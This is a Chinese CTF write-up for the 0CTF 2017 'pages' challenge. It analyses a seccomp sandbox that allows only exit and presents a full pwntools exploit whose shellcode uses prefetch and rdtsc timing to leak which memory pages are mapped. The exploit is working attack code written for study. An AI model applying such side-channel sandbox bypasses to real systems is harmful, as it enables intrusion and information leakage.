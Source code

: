 # 0ctf 'pages'

这道题弄了一个父进程，和一个子进程。子进程中从/dev/urandom 中读取了64个字节，根据每个字节的最后一个 bit 是1还是0，来 mmap 内存。可以执行任意的 shellcode，但是通过 prctl 函数来限制了 syscall 只能调用 exit

```C
__int64 exhibit_syscall()
{
  sock_fprog v1; // [rsp+20h] [rbp-50h]@1
  sock_filter BPFs[7]; // [rsp+30h] [rbp-40h]@1

  memcpy(BPFs, filters, 0x38uLL);
  v1.len = 7;
  v1.filter = BPFs;
  if ( prctl(PR_SET_NO_NEW_PRIVS, 1LL, 0LL, 0LL, 0LL) )
  {
    printf("[ERROR]");
    fflush(stdout);
    _exit(1);
  }
  if ( prctl(PR_SET_SECCOMP, SECCOMP_MODE_FILTER, &v1) )
  {
    printf("[ERROR]");
    fflush(stdout);
    _exit(1);
  }
  return 0LL;
}
```

可以看到，第二次调用 prctl 时候的第一个参数是 PR_SET_SECCOMP，是控制 security compute 的选项，第三个参数 v1指向了 sock_fprog 结构体，sock_fprog 结构体中的 filter 项指向了一个 sock_filter 的数组

```C
.rodata:0000000000401720 ; sock_filter filters[7]
.rodata:0000000000401720 filters         sock_filter <20h, 0, 0, 4>
.rodata:0000000000401720                                         ; DATA XREF: exhibit_syscall+Co
.rodata:0000000000401720                 sock_filter <15h, 1, 0, 0C000003Eh>
.rodata:0000000000401720                 sock_filter <6, 0, 0, 0>
.rodata:0000000000401720                 sock_filter <20h, 0, 0, 0>
.rodata:0000000000401720                 sock_filter <15h, 0, 1, 3Ch>
.rodata:0000000000401720                 sock_filter <6, 0, 0, 7FFF0000h>
.rodata:0000000000401720                 sock_filter <6, 0, 0, 0>
```

这是数组的内容。 sock_filter 结构体的内容不是很直观，比较难以理解，跟 BPF language 有关。在 github 上找到了 libseccomp，可以用来对 BPF byte code 做反编译。gdb 调试的时候在 prctl 处下断点，然后在内存中找到这一段，

[dump seccomp rules]: https://kitctf.de/writeups/32c3ctf/ranger 这篇文章介绍了如何 dump 出 seccomp 的 rules，然后用 libseccomp 的 tools 文件夹里面的 sec_comp_disassemble 工具，就可以翻译出这段 rules 具体的含义了。

```shell
➜  tools ./scmp_bpf_disasm < ../../../0CTF2017/page/bpfs.dump
 line  OP   JT   JF   K
=================================
 0000: 0x20 0x00 0x00 0x00000004   ld  $data[4]
 0001: 0x15 0x01 0x00 0xc000003e   jeq 3221225534 true:0003 false:0002
 0002: 0x06 0x00 0x00 0x00000000   ret KILL
 0003: 0x20 0x00 0x00 0x00000000   ld  $data[0]
 0004: 0x15 0x00 0x01 0x0000003c   jeq 60   true:0005 false:0006
 0005: 0x06 0x00 0x00 0x7fff0000   ret ALLOW
 0006: 0x06 0x00 0x00 0x00000000   ret KILL
```

这是 dump 的结果。前两行是判断 arch 是否是 x86-64。第三、四行是判断系统调用行是否等于60，等于60就返回 ALLOW，不等于就返回 KILL。系统调用号60是 sys_exit，所以就相当于没有系统调用可用。

```C
  if ( close(0) )
  {
    printf("[ERROR]");
    fflush(stdout);
    _exit(1);
  }
  if ( close(1) )
  {
    printf("[ERROR]");
    fflush(stdout);
    _exit(1);
  }
  if ( close(2) )
  {
    printf("[ERROR]");
    fflush(stdout);
    _exit(1);
  }
```

程序还把标准输入、输出、错误输出都给 close 掉了。

唯一的办法就是利用 prefetch 这个指令。这个指令的作用是从内存中 copy 一段字节到 cache 中

> If the line selected is already present in the cache hierarchy at a level closer to the processor, no data movement occurs. Prefetches from uncacheable or WC memory are ignored.

这个指令的特点是即使访问了没有 mmap 的内存，也不会发生段错误。但如果内存没有 mmap 的话，这个指令的执行时间会比较长。如果内存是 mmap 过的，这个指令的执行时间就比较短。我们可以用 rdtsc 这个指令来获取指令执行的时间。

下面是 exp

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
""" dddong / AAA """

from pwn import *
import sys, os, re
context(arch='amd64', os='linux', log_level='debug')
context(terminal=['gnome-terminal', '-x', 'bash', '-c'])

def __get_base(p, _path):
    _vmmap = open('/proc/%d/maps' % p.proc.pid).read()
    _regex = '^.* r-xp .* {}$'.format(_path)
    _line = [_ for _ in _vmmap.split('\n') if re.match(_regex, _)][0]
    return int(_line.split('-')[0], 16)

# def __get_child_proc(p):

_program = 'pages' 
_pwn_remote = 0
_debug = int(sys.argv[1]) if len(sys.argv) > 1 else 0

elf = ELF('./' + _program)

if _pwn_remote == 0:
    os.environ['LD_PRELOAD'] = ''
    libc = ELF('./libc.so.6')
    p = process('./' + _program)

    if _debug != 0:
        if elf.pie:
            _bps = [] #breakpoints defined by yourself, not absolute addr, but offset addr of the program's base addr 
            _offset = __get_base(p, os.path.abspath(p.executable))
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps])
        else:
            _source = 'source peda-session-%s.txt' % _program
        gdb.attach(p.proc.pid, execute=_source)
else:
    libc = ELF('./libc6-i386_2.19-0ubuntu6.9_amd64.so') #todo
    p = remote('8.8.8.8', 4002)	#todo

sc = asm("""
    /* r15 stores the prefetch execute count */
    mov r11, 64
    mov rbx, 0x200000000
    mov r10, 0x300000000

loop_begin:
    /* test the even page */
    mov r15, 0x10000
    rdtsc
    shl rdx, 32
    or rdx, rax /* get time stamp value */
    mov r8, rdx
benchmark:
    prefetcht0 [rbx]
    dec r15
    jz bm_end
    jmp benchmark
bm_end:
    rdtsc
    shl rdx, 32
    or rdx, rax
    sub rdx, r8
    mov r9, rdx/* stores the latency */

    /* test the adjacent odd page */
    mov r15, 0x10000
    add rbx, 0x1000
    rdtsc
    shl rdx, 32
    or rdx, rax
    mov r8, rdx
benchmark2:
    prefetcht0 [rbx]
    dec r15
    jz bm2_end
    jmp benchmark2

bm2_end:
    rdtsc
    shl rdx, 32
    or rdx, rax
    sub rdx, r8
    cmp rdx, r9
    jl set_byte_1
    /* set byte 0 */
    mov byte ptr [r10], 0
    jmp end_of_set_byte
set_byte_1:
    mov byte ptr [r10], 1
end_of_set_byte:
    inc r10
    add rbx, 0x1000
    dec r11
    
    jz end_of_sc
    jmp loop_begin
end_of_sc:
    nop
    ret
""")

_len = len(sc)
with open("shellcode.data", "w") as f:
    f.write(p32(_len))
    f.write(sc)
    f.close()

p.send(p32(_len))
p.send(sc)
p.interactive()

```



# 坑点

1. 一开始测时间的时候，prefetch 只执行了一次，由于两次 rdtsc 中还有别的指令在执行，所以执行的非常不准。后来把代码改成执行0x10000次 prefetch，就能很明显的测出两种情况下 prefetch 的访问时间差异了。